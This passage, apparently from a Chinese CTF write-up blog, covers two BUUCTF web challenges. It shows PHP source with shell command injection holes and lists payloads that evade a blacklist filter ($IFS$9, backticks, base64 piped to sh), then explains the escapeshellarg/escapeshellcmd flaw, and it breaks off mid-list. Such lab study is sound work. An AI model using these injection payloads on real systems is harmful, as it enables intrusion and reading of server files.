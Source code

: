 ```php
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}

?>
```
最后试不出来，看wp，发现方法很多
```javascript
1：a=ag.php;b=fl;cat$IFS$9$b$a
2：cat$IFS$9`ls`
3：echo$IFS$9Y2F0IGZsYWcucGhw=$IFS$9|$IFS$9base64$IFS$9-d$IFS$9|sh
4：tar$IFS$9-cvf$IFS$9index$IFS$9. 打包目录下的所有文件为index，下载即可
```
最后要查看源代码得flag的
![](https://img-blog.csdnimg.cn/20200316212320855.png)


## [BUUCTF 2018]Online Tool
打开获得源码：~~随后就去看了wp~~
```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```
发现不会的函数，查看php手册
![](https://img-blog.csdnimg.cn/20200316214608506.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
**即使参数用了 escapeshellarg 函数过滤单引号，但参数在拼接命令的时候用了双引号的话还是会导致命令执行的漏洞**
![](https://img-blog.csdnimg.cn/20200316215448326.png)
![](https://img-blog.csdnimg.cn/20200316214704290.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
**对于单个单引号, escapeshellarg 函数转义后,还会在左右各加一个单引号,但 escapeshellcmd 函数是直接加一个转义符，对于成对的单引号, escapeshellcmd 函数默认不转义,但 escapeshellarg 函数转义**
![](https://img-blog.csdnimg.cn/20200316215958204.png)
题目先用escapeshellarg，后用escapeshellcmd，会造成漏洞如下：
1. 传入参数：